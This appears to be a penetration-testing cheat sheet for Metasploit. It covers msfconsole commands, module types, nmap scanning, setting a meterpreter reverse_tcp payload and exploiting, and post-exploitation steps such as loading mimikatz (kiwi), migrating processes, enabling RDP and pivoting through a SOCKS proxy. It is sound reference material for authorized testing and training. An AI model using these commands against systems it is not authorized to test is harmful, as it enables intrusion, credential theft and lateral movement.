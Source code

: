 ```yaml
---
title: CheatSheet - Metasploit
author: 4n3i5v74
date: 2020-12-01 09:00:00 +0530
categories: [CheatSheet, Metasploit]
tags: [cheatsheet, metasploit, pentest]
pin: true
---
```



## Initializing

- `msfdb init` - initialize database. `Msfconsole` supports only postgresql databases.
- `msfconsole -q` - quietly launch `msfconsole` without banner.
- `db_status` - check database connectivity from `msfconsole`


## Framework architecture

- Modules (exploit, payload, encoder, nop, auxiliary)
- Libraries (msf base, msf core, rex)
- Tools
- Plugins
- Interfaces (console, cli, rpc, gui & armitage)


## Commands

- `search` - search for modules
- `use` - use the module
- `info` - view info on module
- `connect` - netcat like command to check host connectivity
- `set` - change value of variable
- `setg` - change value of variable globally
- `get` - view value of variable
- `unset` - set null/no value to variable
- `spool` - write console output into a file as well the screen
- `save` - store the settings/active datastores to a settings file


## Modules

- `exploit` - most common module utilized, which holds all of the exploit code
- `payload` - module used hand in hand with exploits, contains the various bits of shellcode
- `auxiliary` - module commonly used in scanning and verification to see if machines are exploitable
- `post` - provides looting and pivoting after exploitation
- `encoder` - module commonly utilized in payload obfuscation, to modify the `appearance` of exploit and avoid signature detection
- `nop` - module used with buffer overflow and ROP attacks
- `load` - load different module


## Command examples and Navigation

- `db_nmap -Pn -T4 -sS -sV --top_ports 1000 <ip>` - nmap scan within `msfconsole` terminal
- `hosts` - host information gathered
- `services` - service infomation gathered
- `vulns` - vulnerability information gathered
- `search multi/handler` - search for module `multi/handler`
- `use 6` - use `6`th result from search
- `set PAYLOAD windows/meterpreter/reverse_tcp` - set payload as meterpreter reverse tcp
- `use icecast` - use `icecast` payload, if no payload configured for use in `icecast`, `windows/meterpreter/reverse_tcp` will be used
- `options` - check currently set variables for use in exploit
- `exploit` - start exploit and gain shell, `meterpreter` shell if default
- `sessions` - get existing backgrounded sessions
- `jobs` - get existing backgrounded job runs


## Post-exploitation

The following commands are used in `meterpreter` shell across a `windows` target.

- `ps` - list running processes
- `migrate <pid>` - migrate from exploited process to another running process
- `getuid` - get current username
- `sysinfo` - system information
- `getprivs` - get current privileges
- `ipconfig` - get ip information
- `load kiwi` - load latest version of mimikatz extension
- `upload test c:\user\test\desktop` - upload file
- `run post/windows/gather/checkvm` - run post script to check if target is a VM
- `run post/multi/recon/local_exploit_suggester` - run post script to check suggested exploits
- `run post/windows/manage/enable_rdp` - run post script to try to enable rdp
- `shell` - spawn a shell to interact with target internally
- `bg` - background the meterpreter shell



## Network options

- `run autoroute -h` - run post script on how to use autoroute to configure target networking
- `search server/socks` - search available socks module
- `use server/socks5` - initiate a socks proxy server from meterpreter terminal

